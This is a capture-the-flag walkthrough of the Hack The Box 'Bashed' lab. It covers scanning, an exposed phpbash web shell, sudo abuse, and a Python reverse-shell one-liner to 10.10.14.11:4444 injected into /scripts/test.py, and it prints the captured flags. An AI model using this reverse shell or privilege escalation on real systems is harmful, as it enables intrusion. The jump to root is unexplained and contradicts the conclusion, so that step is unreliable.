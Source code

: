 
IP = 10.10.10.68

we right away see a website

```
sudo nmap -sV 10.10.10.68                                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 15:47 CEST
Nmap scan report for 10.10.10.68
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/PathBANGER.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       23w     1322c http://10.10.10.68/images/favicon.png
200      GET      154l      394w     7477c http://10.10.10.68/single.html
200      GET      161l      397w     7743c http://10.10.10.68/index.html
200      GET        8l       35w     2447c http://10.10.10.68/images/logo.png
200      GET       32l      116w     1222c http://10.10.10.68/css/carouFredSel.css
200      GET       12l       63w     1392c http://10.10.10.68/js/jquery.mousewheel.min.js
200      GET        8l       73w     2429c http://10.10.10.68/js/html5.js
200      GET       13l      113w     4313c http://10.10.10.68/js/jquery.touchSwipe.min.js
200      GET       15l      672w    36079c http://10.10.10.68/js/jquery.carouFredSel-6.0.0-packed.js
200      GET      118l      550w    60153c http://10.10.10.68/js/jquery.nicescroll.min.js
200      GET        1l        1w       14c http://10.10.10.68/uploads/
200      GET       58l      254w     1783c http://10.10.10.68/js/jquery.easing.1.3.js
200      GET      117l      685w     4689c http://10.10.10.68/css/sm-clean.css
200      GET       96l      166w     1661c http://10.10.10.68/css/clear.css
200      GET      680l     1154w    10723c http://10.10.10.68/css/common.css
200      GET      262l      560w     8904c http://10.10.10.68/js/main.js
200      GET      893l     3885w    26643c http://10.10.10.68/js/imagesloaded.pkgd.js
200      GET        4l       66w    29063c http://10.10.10.68/css/font-awesome.min.css
200      GET        3l      206w    24476c http://10.10.10.68/js/jquery.smartmenus.min.js
200      GET     1412l     2291w    24164c http://10.10.10.68/style.css
200      GET        6l       20w     1537c http://10.10.10.68/images/arrow.png
200      GET       19l       88w     1564c http://10.10.10.68/images/
200      GET       38l       76w      909c http://10.10.10.68/js/custom_google_map_style.js
200      GET      154l     1009w    73725c http://10.10.10.68/images/ajax-document-loader.gif
200      GET        6l     1435w    97184c http://10.10.10.68/js/jquery.js
200      GET      161l      397w     7743c http://10.10.10.68/
200      GET        0l        0w        0c http://10.10.10.68/php/sendMail.php
200      GET       16l       59w      939c http://10.10.10.68/php/
200      GET       20l       96w     1758c http://10.10.10.68/css/
200      GET      216l      489w     8151c http://10.10.10.68/dev/phpbash.php
200      GET        1l      255w     4559c http://10.10.10.68/dev/phpbash.min

```

as we can see there we have http://10.10.10.68/dev/phpbash.php

We are told that the server is build on [phpbash]([https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash))


Inside phpbash:

```
whoami      # www-data
id           # uid=33(www-data)
ls /home     # arrexel, scriptmanager
sudo -l
```

We discover a key privilege escalation path:

```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means www-data can run any command as `scriptmanager`, using `sudo`.

Although we cannot use `su scriptmanager` (no password), we can execute commands as `scriptmanager` with:

```
sudo -u scriptmanager <command>
```

We check `/scripts`:

```
sudo -u scriptmanager ls -la /scripts
```

We find a Python file named `test.py` owned by `scriptmanager`, which we can modify:

```bash
echo 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])' | sudo -u scriptmanager tee /scripts/test.py > /dev/null
```
Note: `10.10.14.11` is the VPN IP of the attacking machine

### Listener:

```bash
nc -lvnp 4444
```

### Trigger the reverse shell:

```bash
sudo -u scriptmanager python /scripts/test.py
```

This gives us a reverse shell as `scriptmanager` on our local machine.


Now check the listener and we should be root!
```
whoami    # root
cat /root/root.txt
07e7b90a784d3f7d0c4ee08c0be62774
cat /home/arrexel/user.txt
817fffdd4cc7a8865c6f07e304a4150d
```


### Conclusion

In the _Bashed_ Hack The Box machine, initial access was obtained through an exposed `phpbash.php` web shell running as the low-privileged `www-data` user. During enumeration, it was discovered that `www-data` had misconfigured `sudo` permissions, allowing it to run any command as the `scriptmanager` user without requiring a password. Although direct switching to `scriptmanager` wasn’t possible, we leveraged `sudo -u scriptmanager` to inject a Python reverse shell into a writable script file (`/scripts/test.py`). By triggering this file, we received a reverse shell connection back to our local Mac, this time as `scriptmanager`. From there, a simple privilege escalation was achieved by running `/bin/bash` as root using `sudo`, completing the compromise and granting access to both the user and root flags. This box serves as a lesson in the dangers of exposed dev tools, overly permissive `sudo` rules, and unmonitored script execution paths.